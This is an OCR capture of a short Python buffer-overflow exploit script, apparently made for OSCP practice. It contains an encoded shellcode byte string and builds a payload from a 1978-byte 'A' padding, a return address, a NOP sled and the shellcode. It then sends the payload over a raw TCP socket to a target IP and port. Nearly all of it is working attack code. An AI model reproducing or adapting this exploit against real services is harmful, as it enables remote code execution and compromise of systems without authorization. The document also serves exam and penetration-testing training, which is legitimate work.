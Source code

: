 ```py

"\x51\x26\x54\x44\x1f\xcf\x11\x56\xc8\x3f\x6c\x04\x5f\x3f\x5a"

"\x20\x03\xd2\x01\xb0\x4a\xcf\x9d\xe7\x1b\x21\xd4\x6d\xb6\x18"

"\x4e\x93\x4b\xfc\xa9\x17\x90\x3d\x37\x96\x55\x79\x13\x88\xa3"

"\x82\x1f\xfc\x7b\xd5\xc9\xaa\x3d\x8f\xbb\x04\x94\x7c\x12\xc0"

"\x61\x4f\xa5\x96\x6d\x9a\x53\x76\xdf\x73\x22\x89\xd0\x13\xa2"

"\xf2\x0c\x84\x4d\x29\x95\xa4\xaf\xfb\xe0\x4c\x76\x6e\x49\x11"

"\x89\x45\x8e\x2c\x0a\x6f\x6f\xcb\x12\x1a\x6a\x97\x94\xf7\x06"

"\x88\x70\xf7\xb5\xa9\x50")

string = prefix + ("A" * 1978) + retr + sledge + payload + tantofaz

while True:

try:

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:

s.settimeout(timeout)

s.connect((ip, port))

s.recv(1024)

print("Fuzzing with {} bytes".format(len(string) - len(prefix)))

s.send(bytes(string, "latin-1"))

s.recv(1024)

except:

print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))

sys.exit(0)

#string += 100 * "A"

time.sleep(1)
```



OSCP
